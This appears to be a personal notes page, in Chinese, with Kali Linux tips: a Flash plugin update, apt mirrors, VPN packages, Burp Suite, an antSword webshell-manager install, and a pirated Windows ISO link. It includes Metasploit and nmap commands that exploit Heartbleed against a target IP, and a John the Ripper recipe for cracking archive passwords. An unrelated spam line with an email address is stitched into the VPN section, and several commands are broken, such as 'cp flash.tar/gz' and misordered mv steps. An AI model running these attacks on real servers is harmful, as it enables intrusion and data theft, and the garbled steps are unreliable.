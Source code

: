 #problem while using kali

##update flash plugin
> 不知道为什么kali 自带的 update-flashplugin-nonfree --install 并不能成功更新flashplugin

1. 在https://get.adobe.com/cn/flashplayer/ 下载flash插件，或者是这个链接 https://fpdownload.adobe.com/get/flashplayer/pdc/11.2.202.621/install_flash_player_11_linux.x86_64.tar.gz  用的时候记得改下版本
2. 解压
```
wget https://fpdownload.adobe.com/get/flashplayer/pdc/11.2.202.621/install_flash_player_11_linux.x86_64.tar.gz -O /tmp/flash.tar.gz
cd /tmp
tar x -f flash.tar.gz
cp flash.tar/gz /var/cache/flashplugin-nonfree/
cd flash

#下面这一步是flash的readme里没有的，但是update-flashplugin-nonfree里有的
cp libflashplayer.so ~/usr/lib/flashplugin-nonfree/

cp libflashplayer.so ~/.mozilla/plugins/
cp -r usr/* /usr
```

## apt source.list
```
#tsinghua mirrors
deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main non-free contrib
#deb-src http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main non-free contrib

deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling-only main non-free contrib
#deb-src http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling-only main non-free contrib
```

## vpn 
1. `apt-get install network-manager-openvpn-gnome network-manager-pptp network-manager-pptp-gnome network-manager-strongswan network-manager-vpnc network-manager-vpnc-gnome`
2. restart the network-manager `service network-manager restart`
3. [获取网址]
如果您需要获取本站最新网址，可随时发任意邮件至  GreenDizhi@gmail.com  系统将自动回复最新网址到您的邮箱。

## heartbleed
nmap+msfconsole</br>

learn from http://blog.163.com/xiao106347/blog/static/215992078201464059117/

非常实用的hack工具组合，首先得升级msfconsole至最新版，然后给nmap添加一个针对heartbleed的扫描脚本，用来发现心脏出血漏洞：
```
cd /usr/share/nmap/scripts/
wget https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse
cd /usr/share/nmap/nselib/
wget https://svn.nmap.org/nmap/nselib/tls.lua
nmap --script-updatedb
```
添加成功之后扫描一个没有更新openssl的网站：
`nmap -n -p 443 -Pn --script=ssl-heartbleed servers_ip`
出现如下漏洞信息：

然后`msfconsole`载入 `auxiliary/scanner/ssl/openssl_heartbleed` 模块：
```
msf > use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS xxx_ip
set RPORT 443
set VERBOSE true
exploit
```

#

## antSword
项目地址：`https://github.com/antoor/antSword`
主要问题是安装过程：参照 http://my.oschina.net/blogshi/blog/260953 
```
    这就妥妥的了，node文件夹具体放在哪，叫什么名字随你怎么定。然后设置全局：

ln -s /home/kun/mysofltware/node-v0.10.28-linux-x64/bin/node /usr/local/bin/node
ln -s /home/kun/mysofltware/node-v0.10.28-linux-x64/bin/npm /usr/local/bin/npm

    这里/home/kun/mysofltware/这个路径是你自己放的，你将node文件解压到哪里就是哪里。

```

## virtualbox
win 10 iso
`ed2k://|file|cn_windows_10_enterprise_2015_ltsb_x64_dvd_6848425.iso|3907538944|38E47AB92B6D97DF2BE602BBC9969D34|/`

## 更新kali自带的burpsuite
从官网下载最新版的burpsuite：https://portswigger.net/

`chmod 755 burpsuite.jar`

将新版本移动到/usr/bin目录下，然后更名为burpsuite：

`mv burpsuite.jar /usr/bin`
`mv burpsuite.jar burpsuite`

##use john to crack rar,zip
1. use binwalk to check it first!
2. use `rar2john` or `zip2john` to get a hashes
3. use john  to crack it
```
rar2john rarfile.rar > 1
john 1 --wordlist=1111111111111.lst
john 1 --show
```



